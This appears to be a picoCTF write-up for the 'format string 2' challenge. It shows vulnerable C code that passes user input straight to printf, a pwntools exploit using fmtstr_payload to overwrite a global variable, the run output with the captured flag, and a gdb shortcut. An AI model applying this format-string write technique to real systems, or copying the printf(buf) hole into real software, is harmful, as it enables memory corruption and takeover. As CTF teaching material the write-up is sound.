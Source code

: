 # format string 2

---
AUTHOR: SKRUBLAWD

Description
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

---


Source code:

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}

```

---

here we can see that we need to make the sus variable = 0x67616c66 to get the flag:

We are goona use pwnlib.fmtstr — Format string bug exploitation tools to solve this challenge

Reference : [fmtstr](https://docs.pwntools.com/en/stable/fmtstr.html)

---


Let's get to the exploit:


```python
from pwn import *
ex = ELF('./vuln')
context.binary = ex
# p = process(ex.path)
p = remote("rhea.picoctf.net", 50564)

payload = fmtstr_payload(14, {ex.sym['sus']: 0x67616c66})

p.sendlineafter(b'say?', payload)
p.interactive()

```

Running the above explit:

```bash
❯ python3 exploit.py
[*] '/home/lynk/picoCTF/format-string-2/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to rhea.picoctf.net on port 50564: Done
[*] Switching to interactive mode

Here's your input:                                                                                                      uc    \x00                                                                                                                                                                                                                                                    \x00aaaaba`@@
I have NO clue how you did that, you must be a wizard. Here you go...
picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20}[*] Got EOF while reading in interactive
$
```

---

flag: ```picoCTF{f0rm47_57r?_f0rm47_m3m_e371fb20```

---

There's also another way to playing around:

---

load the binary in gdb.

set a breakpoint in comparison if (sus == 0x67616c66)

change the registers value rax = 0x67616c66

and it will give you the flag.....locallly 

create a fake flag..........to test it out .........


---

